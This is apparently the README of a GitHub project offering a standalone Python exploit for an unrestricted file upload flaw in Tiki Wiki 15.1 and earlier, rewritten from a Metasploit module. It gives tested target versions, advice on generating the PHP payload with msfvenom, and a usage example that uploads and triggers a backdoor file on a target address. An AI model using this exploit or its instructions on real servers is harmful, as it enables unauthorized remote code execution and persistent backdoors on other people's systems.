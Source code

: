 # Tiki Wiki 15.1 unrestricted file upload exploit
Standalone Python 3 RCE exploit for Tiki Wiki <= 15.1 based on the [Metasploit module](https://www.exploit-db.com/exploits/40091).
This is a rewrite of the Metasploit module in Python, to be used outside Metasploit.

Tested with Python 3.7 on target Tiki Wiki 15.1 running on
* mysql 5.5.50
* php 5.6.40
* Ubuntu Server 16.04.6 LTS

Note the php payload doesn't execute if generated with base64 encoding. Don't use `-e php/base64` with `msfvenom`.

## Usage
```
root@Kali:~/# python3 tikiwiki_15.1_RCE.py -h
usage: tikiwiki_15.1_RCE.py [-h] -U URL -P PHP

Required arguments:
  -U URL, --url URL  URL of the Tiki Wiki page eg.
                     http://webserver.com/tikiwiki
  -P PHP, --php PHP  Path to php payload eg. payload.php
root@Kali:~/# python3 tikiwiki_15.1_RCE.py --url 'http://192.168.92.151/tiki' --php payload.php
Target is vulnerable
Uploading backdoor file: ClLiqPSD.php
Backdoor successfully created
Triggering the exploit...
```
